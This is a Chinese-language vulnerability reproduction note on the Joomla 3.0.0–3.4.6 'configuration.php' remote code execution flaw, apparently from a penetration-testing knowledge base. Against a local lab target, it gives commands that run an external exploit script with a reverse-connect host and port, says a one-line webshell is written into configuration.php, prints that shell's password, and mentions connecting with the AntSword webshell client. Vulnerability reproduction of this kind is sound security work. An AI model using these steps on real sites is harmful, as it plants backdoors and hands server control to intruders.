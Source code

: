 Joomla 3.4.6 configuration.php 远程代码执行
===========================================

一、漏洞简介
------------

Joomla 3.4.6 - \'configuration.php\' Remote Code Execution

二、影响范围
------------

Joomla 3.0.0 至 3.4.6

三、复现过程
------------

https://github.com/ianxtianxt/Joomla-3.4.6\-\--configuration.php-Remote-Code-Execution

### 脚本验证

验证：

    python3 test.py -t http://127.0.0.1:8080/

![](./.resource/Joomla3.4.6-'configuration.php'RemoteCodeExecution/media/rId25.png)

显示"Vulnerable"证明存在漏洞

利用：

    python3 test.py -t http://127.0.0.1:8080/ --exploit --lhost 192.168.31.126 --lport 2121

![](./.resource/Joomla3.4.6-'configuration.php'RemoteCodeExecution/media/rId26.png)

执行成功

并在"configuration.php"写入**随机密码**的一句话木马![](./.resource/Joomla3.4.6-'configuration.php'RemoteCodeExecution/media/rId27.png)上图的密码为：kyevgbxjmwivdvegohfzwuukuzswxqquthlrsollpxzgiifumi

蚁剑链接测试

![](./.resource/Joomla3.4.6-'configuration.php'RemoteCodeExecution/media/rId28.png)
